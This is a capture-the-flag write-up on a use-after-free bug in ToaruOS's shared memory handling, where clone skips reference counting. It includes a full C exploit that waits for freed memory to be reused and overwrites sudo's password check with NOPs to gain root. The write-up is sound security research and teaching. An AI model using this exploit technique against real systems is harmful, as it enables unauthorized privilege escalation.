

Ser Szwajcarski 🧀 was a challenge in [hxp 38C3 CTF](https://2024.ctf.link/),
which I "took part" in with my good friend [Krishna](https://krsh732.github.io/)
under the team name "frfrmode". Krishna did not have time to look at this one
while the CTF was live, but he also solved it afterward and wrote about it
[here](https://krsh732.github.io/p/hxp-38c3-ctf-ser-szwajcarski/).

The goal was to find and exploit a zero- or n-day vulnerability in
[ToaruOS](https://toaruos.org/). ToaruOS is a hobby operating system and is
intended as an educational resource rather than a fully-fledged OS for everyday
use, so security is not a primary consideration and there are plenty of
vulnerabilities to be found. On top of that, the version in use, 2.2.0, was
already over a year old at the time. For these reasons the challenge was in the
"baby" category with an estimated difficulty of easy. Despite that, it's a
really cool OS and the challenge was a lot of fun, so I'm writing about it
anyway.

During the competition I looked over the commit history and found
[this bug fix](https://github.com/klange/toaruos/commit/60bd809a401cea54d6aa7b8f8050cf88318d4971).
Prior to this commit, a normal user could read and write to arbitrary kernel
memory via the `send` and `recv` syscalls. Turning this into root privileges is
straightforward and is not the focus of this post. Instead, I want to look at a
new bug I found in the shared memory subsystem after the competition was over.

## Shared Memory

In ToaruOS, each thread of execution is represented by a
[`process_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L95-L165)
structure. Note that this differs from the usual meaning of the term; a process
is typically thought of as something that can contain one or more threads, but
in ToaruOS each "thread" in the traditional sense is a process of its own. The
relevant fields are shown below.

```c
typedef struct process {
    ...
    list_t * shm_mappings;
    ...
    thread_t thread;
    ...
} process_t;
```

The `thread` field, of type
[thread_t](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/process.h#L52-L56),
contains the information needed to update the state of the CPU to begin or
continue executing this process. This includes the values of the registers and
the root of the page tables that determine the process's virtual memory layout.

```c
typedef struct thread {
    ...
    page_directory_t * page_directory;
} thread_t;
```

Multiple processes can opt to share regions of memory. When this happens, each
process has some part of its virtual address space mapped to an underlying
region of physical memory that is also mapped by the other processes. The
`shm_mappings` field of `process_t` holds a list of such shared memory mappings.

To manage shared memory the kernel maintains a tree resembling a heirarchical
file system. Each node in this tree has a name, and each leaf node points to a
"chunk" of type
[`shm_chunk_t`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/base/usr/include/kernel/shm.h#L12-L18),
a reference counted structure that keeps track of a range of shared physical
memory.

```c
typedef struct {
    struct shm_node * parent;
    volatile uint8_t lock;
    ssize_t ref_count;
    size_t num_frames;
    uintptr_t *frames;
} shm_chunk_t;

typedef struct shm_node {
    char name[256];
    shm_chunk_t * chunk;
} shm_node_t;
```

A process can request a shared memory region by passing a path through this tree
to the
[`shm_obtain`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L236-L274)
syscall in a form similar to a file path. After ensuring a chunk exists at this
path by allocating a new one if needed, the chunk is mapped into the calling
process and added to its `shm_mappings` list.

When a process exits,
[`shm_release_all`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L325-L344)
iterates over its `shm_mappings` and calls
[`release_chunk`](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L122-L147)
on each chunk, where the chunk's reference count is decremented. If it reaches
zero, the physical memory backing the chunk is freed.

## Evil Clone

The
[clone](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/process.c#L1339-L1389)
syscall creates a new process via
[spawn_process](https://github.com/klange/toaruos/blob/911daaad555e8872a99687121d84197803d9a16c/kernel/sys/shm.c#L122-L147)
with the same virtual address space as its parent, including any shared
mappings. However, the shared mappings are not added to the new process's
`shm_mappings` list and the reference counts of the corresponding chunks are not
increased.

```c
pid_t clone(uintptr_t new_stack, uintptr_t thread_func, uintptr_t arg) {
    ...
    process_t * new_proc = spawn_process(this_core->current_process, 1);
    new_proc->thread.page_directory = this_core->current_process->thread.page_directory;
    ...
}

process_t * spawn_process(volatile process_t * parent, int flags) {
    ...
    proc->shm_mappings = list_create("process shm mappings",proc);
    ...
}
```

To see why this is a problem, suppose a process that is the only user of some
shared memory chunk calls `clone`.


When the process exits, the last known reference to the chunk is gone and so it
is freed, even though the underlying physical memory is still accessible from
the cloned process.


Now if something else (a privileged process, for example) makes use of that
freed memory, the cloned process is able to corrupt it.


## Exploitation

Exploiting this bug is fairly simple: allocate some shared memory, call `clone`,
and exit the parent process while the child scans through the freed memory
waiting for something sensitive to reuse it. I chose to patch the password check
of `sudo` to always succeed.

```c
#include <pthread.h>
#include <stdint.h>
#include <string.h>
#include <sys/shm.h>

uint8_t *shm;
size_t size = 0x1000000;

void *routine(void *arg) {
  (void)arg;

  for (;;) {
    for (size_t offset = 0; offset < size; offset += 0x1000) {
      uint8_t *page = shm + offset;
      if (memcmp(page + 0x1c9, "\xe8\x22\xfa\xff\xff", 5) == 0) {
        memcpy(page + 0x1c9, "\x90\x90\x90\x90\x90", 5);
      }
    }
  }

  return NULL;
}

int main(void) {
  shm = shm_obtain("asdf", &size);
  memset(shm, 0, size);

  pthread_t thread;
  pthread_create(&thread, NULL, routine, NULL);

  return 0;
}
```

And the result:


